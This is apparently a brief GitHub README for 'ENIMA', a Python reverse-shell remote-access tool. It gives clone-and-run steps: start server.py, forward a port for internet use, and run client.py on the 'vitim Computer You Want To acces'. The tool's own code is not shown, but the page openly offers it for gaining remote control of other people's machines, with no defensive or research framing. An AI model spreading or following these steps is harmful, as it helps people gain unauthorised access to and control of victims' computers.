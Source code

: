 ### `ENIMA`

>  Reverse Shell (Remote Acces )  

![py](https://user-images.githubusercontent.com/45923721/86231801-16628a80-bb61-11ea-8a02-3a46af5b6a49.jpeg)




> For Over Internet Forward Port Mention In server.py

> `How` `Use` :

- Open Terminal `ctrl+alt+t`

- `root@user` :  git clone https://github.com/Akumar7042/ENIMA.git

- `root@user` :  cd ENIMA/

- `root@user/ENIMA` : python server.py              //Run Server 

- `root@` user/ENIMA : python client.py    //Run This File In vitim Computer You Want To acces 
